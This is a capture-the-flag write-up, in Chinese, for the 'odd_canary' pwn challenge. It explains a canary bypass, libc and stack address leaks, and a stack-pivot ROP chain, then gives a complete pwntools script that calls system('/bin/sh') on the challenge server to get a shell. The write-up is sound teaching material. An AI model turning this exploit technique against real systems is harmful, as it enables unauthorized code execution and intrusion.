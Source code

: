 # odd_canary

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.10|

## 解题思路

注意有一个`before_main`是“构造器”，会在`main`之前调用，将canary设为0，这也就意味着
canary已知。

看到程序主菜单有good, vuln, exit三个功能，已知在bss上，符号`name`和`bss`紧邻，
那我们进入`good_news`后，只要输入0x20个字符填满`name`，就可以在下一次循环中读取到
`bss`上存放的`puts`地址拿到libc。为了拿到栈地址，我们从`exit_a`函数中，
控制栈指针放到`bss`上，这样再进入一次`good_news`就可以泄露栈地址。

最后进入`vuln`打栈溢出。由于只溢出到返回地址的地方，因此结合栈地址可以打栈迁移，
供我们输入的空间刚好可以执行`system("/bin/sh")`。由于调用`system`，需要注意栈平衡。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './odd_canary'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote("pwn-3c371156cb.challenge.xctf.org.cn", 9999, ssl=True)
    libc = ELF('/libraries/2.35-0ubuntu3.10_amd64/libc.so.6')

    def news(buf: bytes) -> bytes:
        t.sendlineafter(b'good/vuln', b'good')
        t.recvuntil(b'good news,')
        name = t.recvuntil(b' ', True)
        t.send(buf)
        return name

    def vuln(buf: bytes):
        t.sendlineafter(b'good/vuln', b'vuln')
        t.sendafter(b'payload', buf)
        assert buf.startswith(b'exec')

    def not_exit(yes: bool):
        t.sendlineafter(b'good/vuln', b'exit')
        t.sendlineafter(b'Are you', b'y' if yes else b'n')

    news(b'a' * 0x20)
    data = news(b'a' * 0x20)
    libc_base = u64(data[0x20:0x26] + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    not_exit(False)
    data = news(b' ' * 0x20)
    stack = u64(data[0x20:0x26] + b'\0\0') - 0x27 + 8
    success(f'About to pivot stack to {stack:#x}')

    gadgets = ROP(libc)
    vuln(flat(
        b'exec'.ljust(8), 0,
        gadgets.rdi.address, next(libc.search(b'/bin/sh')), libc.symbols['system'],
        0, stack, 0x4014b6, # leave; ret
    ))

    t.clean()
    t.interactive()
    t.close()
```

![flag](assets/odd_canary_flag.png)
